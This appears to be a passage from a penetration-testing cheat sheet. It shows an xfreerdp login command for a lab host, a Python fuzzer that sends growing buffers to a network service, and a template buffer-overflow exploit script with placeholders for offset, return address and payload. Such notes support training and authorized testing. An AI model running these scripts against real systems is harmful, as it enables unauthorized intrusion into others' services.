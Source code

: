 - XfreeRDP

  ```bash
  xfreerdp /u:admin /p:password /cert:ignore /v:10.10.227.138 /workarea
  ```

- Remmina

### Buffer Overflow

[Tutorial](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)

fuzzer.py

```python
import socket, time, sys

ip = "<IP>"
port = <port>
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        s.connect((ip, port))

        print("Fuzzing with %s bytes" % len(string))
        s.send(bytes(string + "\r\n", "latin-1"))
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

exploit.py

```python
import socket

ip = "<IP>"
port = <port>

overflow = "A" * <offset> + "<address>" + <additional no-ops such as "\x90" * 32>
payload = ("<payload>")
message = overflow + payload


try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(message + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
```
